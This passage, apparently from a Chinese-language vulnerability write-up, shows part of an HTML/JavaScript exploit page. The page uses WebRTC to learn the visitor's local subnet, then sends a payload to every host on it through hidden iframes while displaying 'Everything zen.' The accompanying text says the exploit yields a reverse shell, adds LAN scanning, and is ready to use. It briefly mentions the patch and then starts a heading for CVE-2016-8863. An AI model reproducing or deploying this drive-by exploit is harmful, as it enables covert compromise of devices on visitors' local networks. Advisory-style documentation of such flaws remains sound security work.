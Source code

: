 ```html
                        new_iframe.setAttribute("style", "width:0; height:0; border:0; border:none");
                        document.body.appendChild(new_iframe);
                    }
                };
                xhttp.send(payload);
            }
            function spray_and_pray()
            {
                RTCPeerConnection = window.RTCPeerConnection ||
                                    window.mozRTCPeerConnection ||
                                    window.webkitRTCPeerConnection;

                peerConn = new RTCPeerConnection({iceServers:[]});
                noop = function() { };

                peerConn.createDataChannel("");
                peerConn.createOffer(peerConn.setLocalDescription.bind(peerConn), noop);
                peerConn.onicecandidate = function(ice)
                {
                    if (!ice || !ice.candidate || !ice.candidate.candidate)
                    {
                        return;
                    }

                    clientNetwork = /([0-9]{1,3}(\.[0-9]{1,3}){2})/.exec(ice.candidate.candidate)[1];
                    peerConn.onicecandidate = noop;

                    if (clientNetwork && clientNetwork.length > 0)
                    {
                        for (i = 0; i < 255; i++)
                        {
                            create_page(clientNetwork + '.' + i, "page"+i);
                        }
                    }
                };
            }
        </script>
    </head>
    <body onload="spray_and_pray()">
    Everything zen.
    </body>
</html>
```

直接利用html中的lua，发请求，然后iframe加载结果获得反弹的shell，还添加了局域网扫描的功能。拿来即可使用。

修复： 新版的补丁中添加了全局宏，限制了POST操作的可写权限。

### CVE-2016-8863
